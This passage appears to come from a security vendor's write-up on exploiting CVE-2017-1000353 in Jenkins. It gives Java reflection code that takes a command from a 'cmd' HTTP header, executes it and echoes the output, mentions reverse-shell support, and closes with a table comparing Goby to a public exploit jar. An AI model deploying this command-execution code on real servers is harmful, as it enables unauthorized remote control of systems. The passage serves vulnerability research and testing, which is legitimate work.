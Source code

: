 Reflection to access the `underlyingOutput` property in the `channel` object.

```java
Field underlyingOutputField = channel.getClass().getDeclaredField("underlyingOutput");
underlyingOutputField.setAccessible(true);
Object underlyingOutput = underlyingOutputField.get(channel);
Object httpConnection;
```

Accessing `underlyingOutput` property, both `_channel` and `this$0` attributes store relevant information about the HTTP request response.  By utilizing reflection, we can retrieve the attributes of `_channel` and `this$0` and assign them to the `httpConnection` object.

```java
try{
  Field _channelField = underlyingOutput.getClass().getDeclaredField("_channel");
  _channelField.setAccessible(true);
  httpConnection = _channelField.get(underlyingOutput);
  	}catch (Exception e){
  Field connectionField = underlyingOutput.getClass().getDeclaredField("this$0");
  connectionField.setAccessible(true);
  httpConnection = connectionField.get(underlyingOutput);
}
```

After obtaining the HTTP information, you can use reflection to retrieve the value of the `cmd` field in the request header. Then, you can execute the command and write the output to the response.

```java
Object request = httpConnection.getClass().getMethod("getRequest").invoke(httpConnection);
Object response = httpConnection.getClass().getMethod("getResponse").invoke(httpConnection);
String cmd = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "cmd");
OutputStream outputStream = (OutputStream)response.getClass().getMethod("getOutputStream").invoke(response);
String result = "\n"+exec(cmd);
outputStream.write(result.getBytes());
outputStream.flush();
```

[![pCdbXi6.png](https://s1.ax1x.com/2023/06/28/pCdbXi6.png)](https://imgse.com/i/pCdbXi6)

These techniques are integrated into Goby, allowing users to experience  the one-click command execution and shell reverse functionality for the  CVE-2017-1000353 vulnerability.

[![](https://res.cloudinary.com/marcomontalbano/image/upload/v1687945459/video_to_markdown/images/youtube--UEIl-m4Rkxs-c05b58ac6eb4c4700831b2b3070cd403.jpg)](https://youtu.be/UEIl-m4Rkxs "")

# 0x05 Effect Comparison

| Tool/Feature           | Goby                        | CVE-2017-1000353-SNAPSHOT-all.jar                            |
| ---------------------- | --------------------------- | ------------------------------------------------------------ |
| Execution of Commands  | Supported                   | Supported                                                    |
| Command Echo           | Supported                   | Not supported                                                |
| Exploitation Process   | One-click command execution | Manual generation of serialized payload and script execution |
| Dependency Environment | Not required                | Requires Java and Python                                     |
| Convenience            | Easy operation              | Complex operation                                            |
